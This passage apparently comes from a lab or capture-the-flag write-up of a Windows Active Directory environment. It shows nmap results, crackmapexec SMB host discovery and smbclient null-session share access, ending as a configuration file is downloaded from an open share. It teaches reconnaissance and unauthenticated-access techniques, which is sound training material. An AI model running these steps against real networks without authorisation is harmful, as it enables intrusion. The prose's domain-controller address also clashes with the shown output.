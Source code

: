 ```
SYN Stealth Scan Timing: About 0.65% done
Nmap scan report for 10.10.255.151
Host is up (0.11s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 20.11 seconds
```

It seems that this environment is solely Windows Active Directory, with no domain-joined Linux machines available. We have a domain controller running on `.53` given that both Kerberos and the DNS services are running on that machine. We then have two workstations on `.150` and `.151`, from which `.150` seems to be a workstation with an external facing MSSQL service (which is already a vulnerability).

Note that if you wanted to view the domain names for each of the machines, I learned that you don't have to use NMAP scripts to do so. You can simply use `crackmapexec` to query SMB on all of the workstations, as all of them contain this service.

```
└─$ crackmapexec smb 10.10.255.149-167
SMB         10.10.255.150   445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.255.149   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.255.151   445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
```

Given that both `MS01` and `WS01` have SMB and RDP running, my first guess is for us to attempt to interact with these services for any null authentication. We'll give those a go starting with SMB with the below commands.

```
└─$ smbclient -L 10.10.255.(150 or 151) -N

└─$ smbclient -L 10.10.255.150 -N

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
staging         Disk      staging environment
```

It seems that on `MS01` (the workstation running MSSQL) allows us to list shares with null authentication. Furthermore, the share `staging` seems to be an uncommon name for a share so we'll query this to see if there's anything we can find.

```
└─$ smbclient \\\\10.10.255.150\\staging -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  7 13:42:48 2023
  ..                                  D        0  Wed Jun  7 13:41:25 2023
  staging_db.conf                     A       50  Thu Jun  8 07:21:49 2023

                6261245 blocks of size 4096. 1166816 blocks available
smb: \> get staging_db.conf
getting file \staging_db.conf of size 50 as staging_db.conf (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit
```
